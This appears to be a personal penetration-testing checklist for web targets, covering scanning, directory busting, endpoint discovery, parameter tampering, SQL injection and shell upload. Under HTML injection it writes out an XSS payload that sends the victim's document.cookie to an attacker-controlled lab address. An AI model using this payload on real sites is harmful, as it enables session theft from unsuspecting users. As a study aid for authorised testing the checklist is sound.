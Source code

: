 
What's running
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	Directory busting
	[[Public/InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work

